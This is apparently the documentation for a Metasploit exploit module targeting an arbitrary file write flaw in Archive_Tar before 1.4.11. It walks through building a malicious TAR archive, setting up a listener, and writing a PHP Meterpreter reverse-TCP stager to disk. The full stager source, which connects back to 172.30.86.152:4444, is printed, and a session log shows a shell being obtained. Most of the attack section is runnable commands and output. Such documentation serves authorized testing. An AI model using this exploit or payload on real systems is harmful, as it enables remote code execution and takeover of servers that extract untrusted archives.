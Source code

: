 ## Vulnerable Application

[Archive_Tar](https://github.com/pear/Archive_Tar/) is a plugin for the
[PEAR PHP development framework](https://pear.php.net/) that allows developers
the ability to create, delete, modify and extract files from TAR archives.

This module takes advantages of Archive_Tar < 1.4.11's lack of validation of file
stream wrappers contained within filenames to write an arbitrary file containing
user controlled content to an arbitrary file on disk. Note that the file will be
written to disk with the permissions of the user that PHP is running as, so it may
not be possible to overwrite some files if the PHP user is not appropriately
privileged.


## Verification Steps

1. **Install** the PEAR framework using the instructions at https://pear.php.net/manual/en/installation.getting.php
1. **Verify** the PEAR framework is working using the instructions at https://pear.php.net/manual/en/installation.checking.php
1. **Download** the PoC files from the original advisory at https://github.com/pear/Archive_Tar/files/5551831/exploit.zip.
1. **Unzip** the files to a sample directory
1. Open up `msfconsole`.
1. `use exploit/multi/fileformat/archive_tar_arb_file_write`
1. `set FILENAME exploit.tar`
1. `set FILEPATH *path to the file to overwrite on the target system*`
1. `run`
1. **Copy** the generated `exploit.tar` file to the `file_proc` directory within the directory you expanded `exploit.zip` to from earlier.
1. **Run** `php vulnerable.php`
1. **Verify** that the file was created in the location you specified in the `FILEPATH` parameter,
with the contents of the PHP shell that you specified for the `PAYLOAD` parameter.


## Options

### FILENAME
The name of the TAR file to be created locally

### FILEPATH
The full path to the file on the target system that should be
created or overwritten with the code for a PHP shell.


## Scenarios

### Archive_Tar v1.4.10

First create the malicious TAR file and set up the listener:

```
msf > use exploit/multi/fileformat/archive_tar_arb_file_write
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf exploit(multi/fileformat/archive_tar_arb_file_write) > show options

Module options (exploit/multi/fileformat/archive_tar_arb_file_write):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME                   no        The file name.
   FILEPATH  /tmp/msf.php     yes       The full path to the file to write on the target.


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.30.86.152    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Archive_Tar < 1.4.11


msf exploit(multi/fileformat/archive_tar_arb_file_write) > set FILENAME test.tar
FILENAME => test.tar
msf exploit(multi/fileformat/archive_tar_arb_file_write) > set FILEPATH /tmp/test.php
FILEPATH => /tmp/test.php
msf exploit(multi/fileformat/archive_tar_arb_file_write) > run

[*] Writing file: test.tar (3072 bytes) ...
[+] test.tar stored at /home/test/.msf4/local/test.tar
msf exploit(multi/fileformat/archive_tar_arb_file_write) > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 172.30.86.152
LHOST => 172.30.86.152
msf exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.30.86.152:4444
```

Then copy the file over and into the expanded copy of https://github.com/pear/Archive_Tar/files/5551831/exploit.zip
and run vulnerable.php to simulate an application opening a tar file and extracting its contents.

```
 ~/drupal/exploit/file_poc #  ls
create_tar.py  exploit.tar  input_file.txt  php_errors.log  steps.sh  vulnerable.php
 ~/drupal/exploit/file_poc #  rm -rf exploit.tar
 ~/drupal/exploit/file_poc #  cp /home/test/.msf4/local/test.tar exploit.tar
 ~/drupal/exploit/file_poc # ls -alh /tmp/test.php
ls: cannot access '/tmp/test.php': No such file or directory
 ~/drupal/exploit/file_poc # php vulnerable.php
 ~/drupal/exploit/file_poc # cat vulnerable.php
<?php

  require_once('../Archive/Tar.php');

  $archive = new Archive_Tar('exploit.tar');
  $archive->extract();
 ~/drupal/exploit/file_poc  ls -alh /tmp/test.php
-rw-rw-r-- 1 test test 1.1K Jan 15 17:54 /tmp/test.php
 ~/drupal/exploit/file_poc # cat /tmp/test.php
/*<?php /**/ error_reporting(0); $ip = '172.30.86.152'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```

Now we just have to run the PHP file to simulate a user browsing to the web page:

```
php /tmp/test.php
```

And the shell will be obtained:

```
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.30.86.152:4444
[*] Sending stage (39282 bytes) to 172.30.86.152
[*] Meterpreter session 2 opened (172.30.86.152:4444 -> 172.30.86.152:56754) at 2021-01-15 18:02:55 -0600

meterpreter > getuid
Server username: test (1000)
meterpreter > uname -a
[-] Unknown command: uname.
meterpreter > shell
Process 29349 created.
Channel 0 created.
uname -a
Linux test-Virtual-Machine 5.8.0-36-generic #40~20.04.1-Ubuntu SMP Wed Jan 6 10:15:55 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```
